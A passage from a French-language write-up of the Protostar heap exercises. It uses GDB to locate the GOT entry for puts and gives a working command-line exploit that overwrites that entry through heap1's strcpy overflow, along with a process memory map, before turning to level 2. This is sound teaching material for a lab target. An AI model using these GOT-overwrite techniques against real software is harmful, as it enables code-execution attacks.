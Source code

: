 ```bash
```

Pour le où j'ai choisi la `global offset table` et plus précisemment l'entrée pour la fonction `puts` car elle est appelée après les `strcpy`.

Pour obtenir l'adresse de `puts` dans la `GOT` on va utiliser GDB sans lancer le débug du binaire (ou alors avant que `puts` ne soit appellé une première fois sinon l'adresse de la libc aura pris la place) :

```nasm
(gdb) p puts
$1 = {<text variable, no debug info>} 0x80483cc <puts@plt>
(gdb) x/i 0x80483cc
0x80483cc <puts@plt>:   jmp    *0x8049774
```

L'adresse qui nous intéresse est donc `0x8049774`.

```bash
$ ./heap1  `python -c 'import struct; print struct.pack("<I", 0x8049774)*6'` `python -c 'import struct; print struct.pack("<I", 0x08048494)'`
and we have a winner @ 1673169368
```

Ca fonctionne !

Dans notre cas nous n'aurions pas pu écraser `_fini` ni `__DTOR_LIST__` (voir [Format Strings (Gotfault Security Community)](https://www.exploit-db.com/exploits/13239) par exemple) car ils sont sur une plage mémoire non écrivable :

```
(gdb) shell cat /proc/1682/maps
08048000-08049000 r-xp 00000000 00:10 2851       /opt/protostar/bin/heap1
08049000-0804a000 rwxp 00000000 00:10 2851       /opt/protostar/bin/heap1
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]
b7e96000-b7e97000 rwxp 00000000 00:00 0 
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0 
b7fe0000-b7fe2000 rwxp 00000000 00:00 0 
b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
```

## Level 2

Ce level a été assez décevant. En effet juste en jouant un peu avec le binaire et sans avoir une idée de son fonctionnement il est possible de le résoudre. L'objectif fixé est de faire afficher la chaine de caractères *you have logged in already!*
